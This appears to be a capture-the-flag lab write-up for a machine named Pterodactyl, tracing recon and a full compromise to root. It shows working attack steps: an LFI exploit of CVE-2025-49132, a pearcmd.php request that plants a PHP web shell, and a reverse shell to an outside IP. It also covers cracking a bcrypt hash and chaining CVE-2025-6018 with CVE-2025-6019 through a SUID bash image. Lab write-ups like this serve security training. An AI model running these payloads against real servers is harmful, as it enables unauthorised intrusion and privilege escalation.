









# Recon

## nmap

```zsh
# Nmap 7.98 scan initiated Mon Feb  9 23:29:08 2026 as: /usr/lib/nmap/nmap -sCV -p- --min-rate 3000 -T 4 -oA pterodactyl -vv 10.129.73.152
Nmap scan report for 10.129.73.152
Host is up, received echo-reply ttl 63 (0.064s latency).
Scanned at 2026-02-09 23:29:09 +07 for 52s
Not shown: 65477 filtered tcp ports (no-response), 54 filtered tcp ports (admin-prohibited)
PORT     STATE  SERVICE    REASON         VERSION
22/tcp   open   ssh        syn-ack ttl 63 OpenSSH 9.6 (protocol 2.0)
| ssh-hostkey: 
|   256 a3:74:1e:a3:ad:02:14:01:00:e6:ab:b4:18:84:16:e0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOouXDOkVrDkob+tyXJOHu3twWDqor3xlKgyYmLIrPasaNjhBW/xkGT2otP1zmnkTUyGfzEWZGkZB2Jkaivmjgc=
|   256 65:c8:33:17:7a:d6:52:3d:63:c3:e4:a9:60:64:2d:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJTXNuX5oJaGQJfvbga+jM+14w5ndyb0DN0jWJHQCDd9
80/tcp   open   http       syn-ack ttl 63 nginx 1.21.5
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://pterodactyl.htb/
|_http-server-header: nginx/1.21.5
443/tcp  closed https      reset ttl 63
8080/tcp closed http-proxy reset ttl 63

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  9 23:30:01 2026 -- 1 IP address (1 host up) scanned in 53.09 seconds
```

## HTTP web TCP 80

### Site



It seems this is a `minecraft` server.
## Subdomain enumeration

#### FFUF

```zsh
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://pterodactyl.htb/ -H "Host: FUZZ.pterodactyl.htb" -fs 145
```


#### Admin page

`http://panel.pterodactyl.htb`


# Foothold

## CVE-2025-49132

After doing some research, I found that the recent 0-day supply of `Pterodactyl` is worth a try.

Try to inject payload follow [this exploit](https://www.exploit-db.com/exploits/52341):

```html
http://panel.pterodactyl.htb/locales/locale.json?locale=../../../pterodactyl&namespace=config/database
```



Found credential: `pterodactyl:PteraPanel`

I tried to login panel but failed.

Try to read other files but it seems auto add `.php` at the end. `config/database` = `config/database.php`
## pearcmd.php

Thanks to CVE-2025-49132, we can use `pearcmd.php`. It has a `config-create` command: This command takes the content and file path to create the configuration file.

Syntax: `pear config-create <root_path> <file_path>`
If we call `pearcmd.php` via LFI and pass parameters via URL, we can force it to create a file containing malicious code.
### Shell as `wwwrun`

Tôi đã thử tạo một file có tên là `sora1.php` thực hiện lệnh `id`:

```
GET /locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system('id')?>+/tmp/sora1.php HTTP/1.1
```



Sau đó thử kích hoạt payload:

```
GET /locales/locale.json?locale=../../../../../tmp&namespace=sora1 HTTP/1.1
```



So, to create a reverse shell, I will create a file containing a payload that receives command parameters conveniently for command execution.

Create file:

```
GET /locales/locale.json?+config-create+/&locale=../../../../../../usr/share/php/PEAR&namespace=pearcmd&/<?=system($_GET['c'])?>+/tmp/sora.php HTTP/1.1
```

Run Payload:

```
GET /locales/locale.json?locale=../../../../../tmp&namespace=sora&c=sh+-i+>%26+/dev/tcp/10.10.15.170/5555+0>%261 HTTP/1.1
```



From here, it's entirely possible to retrieve the flag `user.txt`.
# Privilege Escalation

## Shell as `phileasfogg3`

It's not possible to access the database directly using `mysql`, so try using:

```
php artisan tinker
```

Then dump all users:

```zsh
\Pterodactyl\Models\User::all();
```



```json
username: "phileasfogg3",
        email: "phileasfogg3@pterodactyl.htb",
        name_first: "Phileas",
        name_last: "Fogg",
        #password: "$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi",
```

It is possible to crack the password of user `phileasfogg3`

```zsh
hashcat -m 3200 '$2y$10$PwO0TBZA8hLB6nuSsxRqoOuXuGi3I4AVVN2IgE7mZJLzky1vGC9Pi' /usr/share/wordlists/rockyou.txt
```

The password after cracked: `!QAZ2wsx`

It can be used for SSH now.

```zsh
ssh phileasfogg3@pterodactyl.htb
```
## uudisks

`sudo -l` shows (ALL) ALL but with [targetpw](https://superuser.com/questions/161593/how-do-i-make-sudo-ask-for-the-root-password),  we cannot easily escalate with sudo.



There was an email mentioning the vulnerability:


`CVE-2025-6019` – Race Condition via udisks2 + libblockdev

## CVE-2025-6018 + CVE-2025-6019

Create a malicious XFS image (on the attacker's machine).

```zsh
dd if=/dev/zero of=xfs_sora.img bs=1M count=300
sudo mkfs.xfs -f xfs_sora.img
mkdir xfsmnt
sudo mount xfs_sora.img xfsmnt
sudo cp /bin/bash xfsmnt/bash
sudo chmod 4755 xfsmnt/bash
sudo umount xfsmnt
scp xfs_sora.img phileasfogg3@pterodactyl.htb:/tmp/
```

Create loop device:

```zsh
phileasfogg3@pterodactyl:/tmp> udisksctl loop-setup --file /tmp/xfs_real.image --no-user-interactionError setting up loop device for /tmp/xfs_real.image: GDBus.Error:org.freedesktop.UDisks2.Error.NotAuthorizedCanObtain: Not authorized to perform operation
```

We are blocked from running udiskctl. Because the SSH session is always Remote=yes, Polkit is blocking "dangerous" actions.

Check session

```zsh
loginctl show-session $XDG_SESSION_ID -p Seat -p Remote -p Active -p State

Id=64 
Seat=
Remote=yes 
Active=yes 
State=active
```

I'm active (Active=yes) but I'm still being blocked because the session is remote (Remote=yes).

So how can I fake an SSH session to a local console session?

A quick search: “pam_environment seat0” -> “fake local session polkit ssh” -> `CVE-2025-6018`

```zsh
cat > ~/.pam_environment << 'EOF' 
XDG_SEAT=seat0 
XDG_VTNR=1 
EOF

exit
```

```zsh
ssh phileasfogg3@pterodactyl.htb
phileasfogg3@pterodactyl:~> loginctl show-session $XDG_SESSION_ID -p Seat -p Remote -p Active
Seat=seat0
Remote=yes
Active=yes
```

Now we are acting as a user sitting in front of a real (local) machine and have the right to run udisk.
Check if `seat0` is present?

```zsh
loginctl show-session $XDG_SESSION_ID -p Seat -p Remote -p Active
Seat=seat0
Remote=yes
Active=yes
```

## Shell as root

Use the allow_active permission to create a race condition and run the root binary.

```zsh
phileasfogg3@pterodactyl:/tmp> udisksctl loop-setup --file /tmp/xfs_sora.img --no-user-interaction
Mapped file /tmp/xfs_sora.img as /dev/loop0.
phileasfogg3@pterodactyl:/tmp> while true; do /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break; done 2>/dev/null &
[1] 10783
phileasfogg3@pterodactyl:/tmp> gdbus call --system --dest org.freedesktop.UDisks2 --object-path /org/freedesktop/UDisks2/block_devices/loop0 --method org.freedesktop.UDisks2.Filesystem.Resize 0 '{}'
Error: GDBus.Error:org.freedesktop.UDisks2.Error.Failed: Error resizing filesystem on /dev/loop0: Failed to unmount '/dev/loop0' after resizing it: target is busy
phileasfogg3@pterodactyl:/tmp> -rwsr-xr-x 1 root root 1380656 Feb 13 05:05 /tmp/blockdev.JCQBK3/bash
^C
[1]+  Done                    while true; do
    /tmp/blockdev*/bash -c 'sleep 10; ls -l /tmp/blockdev*/bash' && break;
done 2> /dev/null
phileasfogg3@pterodactyl:/tmp> /tmp/blockdev*/bash -p
bash-5.3# id
uid=1002(phileasfogg3) gid=100(users) euid=0(root) groups=100(users)
```



Summary:
- **CVE-2025-6018** (in PAM) -> Upgrades SSH session from "remote" to "allow_active" (equivalent to a user sitting in front of a real machine).

- **CVE-2025-6019** (in udisks2 + libblockdev) -> Uses allow_active privilege to create a race condition and run the root binary.

Timeline:

SSH Session (Remote=yes) 
        ↓ (PAM injection)
     Seat=seat0 → polkit: allow_active = yes
        ↓
udisksctl loop-setup → creates /dev/loopX
        ↓
Filesystem.Resize (D-Bus) 
        ↓
libblockdev: mount /tmp/blockdev.XXXX → NO nosuid flag
        ↓
SUID bash runs as root → WIN